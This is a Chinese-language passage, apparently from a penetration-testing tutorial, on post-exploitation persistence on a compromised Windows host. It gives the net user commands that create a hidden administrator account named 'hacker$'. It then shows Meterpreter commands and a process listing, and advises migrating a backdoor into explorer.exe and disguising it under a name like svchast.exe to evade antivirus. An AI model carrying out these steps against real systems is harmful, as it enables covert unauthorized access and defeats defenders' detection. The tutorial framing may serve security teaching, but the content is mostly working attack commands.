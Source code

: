 ### 通过在目标主机创建隐藏用户

```shell
# 创建用户（注意这里用户使用了$符号，可以起到隐藏创建用户的目的）
c:\Document and Setting\rush\Desktop > net user hacker$ hacker /add

# 将创建的用户添加到管理员组
c:\Document and Setting\rush\Desktop > net localgroup administrators hacker$ /add
```

## 后面进程内存空间迁移

程迁移的意思是，将原有后门执行的进程迁移到另外一个进程空间中去（这也是我们拿到shell第一步应该做的）。这样做可以避免杀毒软件查杀此进程导致shell中断，也可以避免很容易的猜测中进程列表中后面进程。

### 查看后门进程ID和目标主机所有进程ID

```shell
meterpreter > getpid
Current pid: 1532

meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session  User                 Path
 ---   ----  ----              ----  -------  ----                 ----
 0     0     [System Process]
 4     0     System            x86   0
 416   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM  \SystemRoot\System32\smss.exe
 652   416   csrss.exe         x86   0        NT AUTHORITY\SYSTEM  \??\C:\WINDOWS\system32\csrss.exe
 676   416   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM  \??\C:\WINDOWS\system32\winlogon.exe
 720   676   services.exe      x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\services.exe
 732   676   lsass.exe         x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\lsass.exe
 904   720   VBoxService.exe   x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\VBoxService.exe
 952   720   svchost.exe       x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\system32\svchost.exe
 1136  720   svchost.exe       x86   0                             C:\WINDOWS\system32\svchost.exe
 1532  1968  a.exe             x86   0        EVAN\wangjun         C:\Documents and Settings\wangjun\����\a.exe
 1584  720   svchost.exe       x86   0        NT AUTHORITY\SYSTEM  C:\WINDOWS\System32\svchost.exe
 1768  720   svchost.exe       x86   0                             C:\WINDOWS\system32\svchost.exe
 1800  1968  ctfmon.exe        x86   0        EVAN\wangjun         C:\WINDOWS\system32\ctfmon.exe
 1936  720   svchost.exe       x86   0                             C:\WINDOWS\system32\svchost.exe
 1968  1860  explorer.exe      x86   0        EVAN\wangjun         C:\WINDOWS\Explorer.EXE
```

从上面的进程列表中看出，后面进程id是1532的a.exe（其实应该将后面程序名称设置成更有迷惑性的，如svchast.exe），此时很容易被用户或者杀毒软件查到。这时应该使用 migrate 进程进程空间转移，转移的目标到进程id是1968的explorer.exe桌面进程中。
